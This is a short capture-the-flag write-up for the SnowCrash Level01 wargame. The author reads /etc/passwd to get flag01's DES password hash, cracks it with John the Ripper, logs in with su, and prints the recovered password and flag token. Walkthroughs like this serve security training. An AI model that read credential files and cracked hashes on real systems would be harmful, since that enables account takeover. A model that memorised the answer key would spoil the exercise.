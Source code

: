 # Level01

Once again, empty home directory. No file owned by flag01 this time.
However when looking at /etc/password, we have access to flag01's hashed password

	level01@SnowCrash:~$ cat /etc/passwd | grep flag01
	flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

We save the hashed password in a file called 'hash'.

We can now use a tool called johntheripper to crack the hash

	➜  level01 john hash
	Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
	No password hashes left to crack (see FAQ)

	➜  level01 john --show hash
	?:abcdefg

	1 password hash cracked, 0 left

Let's try with this password

	level01@SnowCrash:~$ su flag01
	Password: abcdefg
	Don't forget to launch getflag !
	flag01@SnowCrash:~$ getflag
	Check flag.Here is your token : f2av5il02puano7naaf6adaaf

